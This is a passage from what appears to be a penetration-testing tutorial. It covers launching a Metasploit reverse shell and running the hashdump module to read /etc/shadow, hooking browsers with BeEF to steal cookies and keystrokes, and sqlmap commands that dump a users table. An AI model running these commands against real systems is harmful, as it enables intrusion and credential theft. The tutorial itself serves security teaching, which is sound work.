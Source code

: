 Now Metasploit is waiting for the reverse shell of the target machine to connect to it.  
We can start the reverse shell on the target machine (the port is 4444 by default both in the reverse shell and in the handler).  
```shell
chmod 777 reverse_shell.elf
./reverse_shell.elf
```

This now gives access to a Meterpreter shell in the handler of the Metasploit console.  
It can be either used directly, or put in the background and used to run some post-exploit modules :
```shell
background
use post/linux/gather/hashdump      # load a post-exploit module to list user hashes (from /etc/shadow)
sessions                            # check the session ID of the Meterpreter shell, let's assume it is 2
set session 2
exploit                             # get the hash of all users on the target machine
```


### BeEF (Browser Exploitation Framework)

BeEF is an open-source penetration testing tool focusing on the exploitation of web browsers.  
It is used by ethical hackers, security professionals, and penetration testers to assess the security of web applications and web browsers.  
It can be used to demonstrate various types of attacks that can be carried out through a web browser.

To use BeEF, we first need to hook the target's browser.  
This is done by making their browser execute some malicious JS code by clicking on a malicious link.  
This JS code communicates with the BeEF server and allows communication with it.  

BeEF provides a web-based interface to see all the hooked browsers and interact with them.  
It allows to steal cookies, capture keystrokes, or take screenshots of the hooked browsers.  


### SqlMap

SqlMap is an automated command-line tool to detect and exploit SQL injection vulnerabilities in web applications.  
It attempts many SQL injection techniques on a provided URL to find out if it is vulnerable to any of them.  

If it finds a boolean vulnerability, it means it can append a `AND 1=1` condition to a query and get a response.  
By evaluating boolean queries, it can infer letter by letter the name of any element in the database.  
If a vulnerability is found, SqlMap can use it to detect the DBMS, list database and table names and dump table contents.  
It can also run custom SQL queries if the vulnerability allows it.

```shell
# test many SQLi attacks with the URL GET parameter to see if any is successful 
sqlmap -u http://example.com/search?type=1

# exploit the found vulnerabilities to list the database names
sqlmap -u http://example.com/search?type=1 --dbs

# exploit the found vulnerabilities to list the tables in a database
sqlmap -u http://example.com/search?type=1 -D company --tables

# exploit the found vulnerabilities to dump all rows from a table
sqlmap -u http://example.com/search?type=1 -D company -T users --dump

# test SQLi attacks on a POST request
```